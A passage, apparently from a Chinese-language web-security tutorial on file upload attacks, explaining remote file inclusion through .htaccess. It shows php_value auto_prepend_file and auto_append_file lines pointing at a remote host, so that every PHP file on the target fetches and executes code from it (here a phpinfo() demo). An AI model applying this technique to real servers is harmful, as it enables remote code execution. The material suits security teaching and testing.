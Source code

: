 ![img](文件上传.assets/1681146119067-e2647e54-1806-42a3-b1d6-1942cfe73da7.png)

#### 远程文件包含

PHP 的 allow_url_include 配置选项这个选项默认是关闭的，如果开启的话就可以进行远程包含。因为 allow_url_include 的配置范围为 PHP_INI_SYSTEM，所以无法利用 php_flag 指令在 .htaccess 文件中开启。这里为了演示，就先在 php.ini 中设置 allow_url_include 为 On。

.htaccess 文件中的设置为：

```php
php_value auto_prepend_file http://192.168.0.181/phpinfo.txt
或:
php_value auto_append_file http://192.168.0.181/phpinfo.txt
```

远程主机上的phpinfo.txt中的内容为：

```php
<?php phpinfo();?>
```

这样，最终目标主机上的php文件都会包含这个远程主机上的 phpinfo.txt 并解析执行：
